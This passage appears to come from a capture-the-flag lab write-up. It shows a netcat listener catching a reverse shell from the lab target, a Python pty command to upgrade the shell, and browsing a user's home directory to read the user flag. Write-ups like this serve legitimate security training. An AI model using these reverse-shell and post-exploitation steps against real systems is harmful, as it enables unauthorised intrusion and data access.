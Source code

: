 ```bash
nc -lvnp 1234
```

**Output:**

```
connect to [your IP] from (UNKNOWN) [10.10.104.145] 49990
```

### Files inside the shell:

```bash
ls
images
index.php
styles.css
```

---

## ⬆️ Shell Upgrade

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

> There you go guys, that’s how you get a nice-looking shell 😎

---

# 🏠 Exploring Home Directory

```bash
cd /home
ls
```

**Output:**

```
deku
```

```bash
cd deku
ls
```

**Output:**

```
user.txt
```

```bash
cat user.txt
```

